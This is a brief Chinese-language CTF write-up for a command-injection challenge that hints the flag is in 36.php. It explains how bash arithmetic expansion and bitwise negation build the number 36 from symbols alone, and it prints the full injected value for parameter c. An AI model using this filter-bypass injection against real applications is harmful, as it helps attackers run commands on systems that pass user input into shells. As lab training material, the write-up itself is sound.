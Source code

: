 这题会将我们传入的get参数进行拼接后再执行

题目里有个暗示

```
//flag in 36.php
```

也就是说我们要用符号构造出36

我们可以利用linux的$(())构造出36

在linux里面$(())=0，$((~ $(()) ))=-1

其中~符号表示取反，这里0的取反等于－1

也就是我们先将36个-1加起来再取反得到我们需要的36

payload:

```
c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

![image-20241128205205756](../assets/image-20241128205205756.png)

从而得到flag

